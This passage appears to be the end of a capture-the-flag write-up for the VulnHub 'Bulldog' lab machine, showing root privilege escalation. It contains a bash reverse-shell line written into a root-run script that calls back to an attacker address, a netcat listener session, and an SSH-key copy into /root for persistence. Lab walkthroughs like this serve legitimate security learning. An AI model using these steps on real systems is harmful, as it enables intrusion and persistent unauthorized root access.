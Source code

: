     # Just wanted to throw this placeholder here really quick.
    # We will put the full AV here when the vendor is done making it.
    # - Alan

We can just get a reverse root shell by modifying the file:

    django@bulldog:~$ cat /.hiddenAVDirectory/AVApplication.py
    #!/bin/bash
    bash -i >& /dev/tcp/10.0.2.15/4444 0>&1

And listen client side:

    root@kalili:~# netcat -l -p 4444
    bash: cannot set terminal process group (2145): Inappropriate ioctl for device
    bash: no job control in this shell
    root@bulldog:~# id
    id
    uid=0(root) gid=0(root) groups=0(root)
    ls /root
    congrats.txt
    cat /root/congrats.txt
    Congratulations on completing this VM :D That wasn't so bad was it?
    Let me know what you thought on twitter, I'm @frichette_n
    As far as I know there are two ways to get root. Can you find the other one?
    Perhaps the sequel will be more challenging. Until next time, I hope you enjoyed!

Yeah the other one include reverse engineering which is not my thing :)

In order to have a complete interactive shell we may just copy our ssh key on the root folder:

    cp /home/django.ssh /root -r

And connect with ssh:

    root@kalili:~# ssh 10.0.2.4 -lroot -p23
    Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)
    <SNIP>
    root@bulldog:~# 

DONE.

Thanks to [@frichette_n](https://twitter.com/@frichette_n) for the machine and thanks to [@vulnub](https://twitter.com/VulnHub).

